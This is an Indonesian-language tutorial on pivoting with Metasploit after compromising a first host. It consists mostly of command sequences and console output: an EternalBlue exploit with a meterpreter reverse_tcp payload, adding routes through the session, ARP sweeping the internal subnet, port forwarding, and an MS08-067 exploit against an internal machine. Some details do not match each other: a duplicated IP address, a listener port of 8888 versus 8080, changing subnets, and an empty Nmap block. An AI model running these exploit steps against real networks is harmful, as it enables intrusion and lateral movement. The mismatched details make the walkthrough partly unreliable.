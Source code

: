 # Pivoting dan Route Command di Metasploit

## A. Apa Itu Pivoting?

[Pivoting](https://en.wikipedia.org/wiki/Exploit_(computer_security)#Pivoting) adalah teknik menggunakan sistem yang telah dikompromikan sebagai `hot point` untuk menyerang sistem lain di jaringan internal yang hanya bisa diakses dari dalam.

**Ada dua jenis pivoting:**
- Layer 3 pivoting (routing) -> menggunakan `autoroute` dan `route` di Metasploit.
- Layer 2 pivoting (`ARP spoofing`, `bridge`) -> biasanya dilakukan dengan tools seperti [ettercap](https://www.ettercap-project.org/) atau [bettercap](https://www.bettercap.org/).

## B. Syarat Pivoting di Metasploit

- Sudah ada Meterpreter session di host pertama (pivot point).
- Host tersebut punya akses ke jaringan internal yang ingin dijelajahi.
- Modul `autoroute` atau perintah `route` digunakan untuk menambahkan rute jaringan internal.

## C. Langkah-Langkah Melakukan Pivoting di Metasploit

### 1. Dapatkan Akses ke Mesin Pertama

Contoh:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
exploit
```

Hasil output-nya seperti ini:

```
[+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter >
```

Itu artinya kita sudah mendapatkan akses ke mesin pertama.

### 2. Tambahkan Route Internal dengan `autoroute`

Misalnya, mesin A bisa melihat jaringan internal `192.168.1.0/24`:

```
run autoroute -s 192.168.1.0/24
```

Keterangan:
- `-s`: (subnet) jaringan internal target: `192.168.1.0/24`

Hasil output-nya seperti ini:

```
meterpreter > run autoroute -s 192.168.1.0/24
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.168.1.0/255.255.255.0...
[+] Added route to 192.168.1.0/255.255.255.0 via 192.168.1.45
[*] Use the -p option to list all active routes
```

Atau secara manual:

```
background
route add 192.168.1.0 255.255.255.0 4
```

Keterangan:
- `192.168.1.0`: Alamat IP Network target
- `192.168.1.255`: Alamat IP Broadcast target
- Angka `4`: Sesi ID Meterpreter.

Hasil output-nya seperti ini:

```
meterpreter > background 
[*] Backgrounding session 4...
msf6 auxiliary(scanner/discovery/arp_sweep) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  4         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ ADMIN-PC  192.168.1.42:4444 -> 192.168.1.45:49160 (192.168.1.45)

msf6 auxiliary(scanner/discovery/arp_sweep) > route add 192.168.1.0 255.255.255.0 4
[*] Route added
msf6 auxiliary(scanner/discovery/arp_sweep) > 
```

Cek route yang sudah ada:

```
route print
```

Hasil output-nya seperti ini:

```
msf6 auxiliary(scanner/discovery/arp_sweep) > route print 

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.1.0        255.255.255.0      Session 4

[*] There are currently no IPv6 routes defined.
```


### 3. Gunakan `auxiliary/scanner` Melalui Route

Kamu sekarang bisa melakukan scanning ke internal network.

Contoh scanning semua host yang ada di internal:

```
use auxiliary/scanner/discovery/arp_sweep
set RHOSTS 192.168.1.0/24
set verbose true
run
```

Ini akan meng-scan semua host yang up/aktif yang ada di jaringan yang sama, mulai dari host dengan alamat IP `192.168.1.1` sampai dengan host dengan alamat IP `192.168.1.254`.

Hasil output-nya seperti ini:

```
msf6 auxiliary(scanner/discovery/arp_sweep) > set rhosts 192.168.1.0/24
rhosts => 192.168.1.0/24
msf6 auxiliary(scanner/discovery/arp_sweep) > set verbose true 
verbose => true
msf6 auxiliary(scanner/discovery/arp_sweep) > run
[+] 192.168.1.1 appears to be up (UNKNOWN).
[+] 192.168.1.4 appears to be up (UNKNOWN).
[+] 192.168.1.7 appears to be up (UNKNOWN).
[+] 192.168.1.12 appears to be up (UNKNOWN).
[+] 192.168.1.45 appears to be up (CADMUS COMPUTER SYSTEMS).
[+] 192.168.1.47 appears to be up (UNKNOWN).
[+] 192.168.1.48 appears to be up (CADMUS COMPUTER SYSTEMS).
[+] 192.168.1.42 appears to be up (ALFA, INC.).
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/discovery/arp_sweep) > 
```

Dari hasil scan tersebut, ditemukan 8 alamat IP Address yakni:
- `192.168.1.1`
- `192.168.1.4`
- `192.168.1.7`
- `192.168.1.12`
- `192.168.1.42`
- `192.168.1.45`
- `192.168.1.47`
- `192.168.1.45`

Buat file `host.txt`:

```
nano host.txt
```

Isi dengan:

```
192.168.1.1
192.168.1.4
192.168.1.7
192.168.1.12
192.168.1.42
192.168.1.47
192.168.1.48
```

Kenapa host dengan alamat IP Address `192.168.1.45` tidak diikutsertakan? karena host tersebut sudah dieksploitasi alias sudah menjadi jembatan pertama untuk mengeksploitasi host-host yang lain.

Scan host-host tersebut menggunakan Nmap:

```

```


### 4. Port Forwarding (Opsional)

Jika kamu ingin mengakses service internal dari browser (misalnya Web UI internal), gunakan port forward:

```
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.10.10
```

Keterangan:
- `-l` : Port listener: `8888`
- `-p` : Port tujuan di mesin target: `80`
- `-r` : IP target di jaringan internal korban yang akan diakses: `192.168.10.10`

Lalu, buka di browser kamu:

```
http://127.0.0.1:8080
```

### 5. Lanjutkan Eksploitasi ke Mesin Internal

Setelah tahu ada mesin internal dengan service aktif, kamu bisa lanjut menggunakan exploit yang sesuai:

```
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 192.168.10.20
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

### Tips Tambahan

- Gunakan `arp` di Meterpreter untuk melihat host yang pernah diakses:

   ```
  meterpreter > arp
  ```

- Gunakan netstat untuk lihat koneksi:

  ```
  meterpreter > netstat
  ```

- Bisa chaining pivot lebih dari satu kali (multi-hop), tapi perlu VPN atau SOCKS proxy (contoh: `auxiliary/server/socks_proxy`).
